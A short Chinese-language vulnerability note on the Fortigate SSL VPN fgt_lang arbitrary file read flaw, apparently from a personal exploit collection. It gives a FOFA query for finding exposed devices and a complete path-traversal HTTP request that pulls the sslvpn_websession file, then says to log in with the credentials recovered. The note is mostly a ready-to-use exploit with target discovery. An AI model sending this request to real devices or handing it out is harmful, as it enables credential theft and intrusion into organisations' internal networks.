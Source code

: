 # Fortigate SSL VPN fgt_lang存在任意文件读取漏洞

# 一、漏洞简介
飞塔防火墙设备的专用名词，Fortinet是飞塔的品牌，而FortiGate 是指飞塔硬件。Fortinet的屡获殊荣的FortiGate系列，是采用ASIC加速的UTM解决方案，可以有效地防御网络层和内容层的攻击。Fortinet将其SSL VPN产品线称为Fortigate SSL VPN,主要应用于最终用户以及中型企业。目前互联网上这些服务器的数量已超过48万台,主要集中在亚洲及欧洲区域。FortinetSSL VPN系统存在任意文件读取漏洞，攻击者通过漏洞可以通过VPN进入内网，导致内网失陷。

# 二、影响版本
+ Fortigate SSL VPN

# 三、资产测绘
+ fofa`app="FORTINET-SSLVPN"`
+ 特征

![1708092353453-aa4ebd52-c568-4244-9a91-8c5c81c9e9ec.png](./img/E8qdadyp9jQpN2G8/1708092353453-aa4ebd52-c568-4244-9a91-8c5c81c9e9ec-894218.png)

# 四、漏洞复现
```java
GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

![1708092406691-a59dc5bf-81c2-4ef9-8253-ee3897ec4f44.png](./img/E8qdadyp9jQpN2G8/1708092406691-a59dc5bf-81c2-4ef9-8253-ee3897ec4f44-016213.png)

<font style="color:rgb(34, 34, 34);">根据账号密码登录即可</font>

![1708092442244-dbe869e6-9452-46df-a907-52a65b5f547f.png](./img/E8qdadyp9jQpN2G8/1708092442244-dbe869e6-9452-46df-a907-52a65b5f547f-370030.png)



> 更新: 2024-02-29 23:57:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ewnsxk842voyxx9o>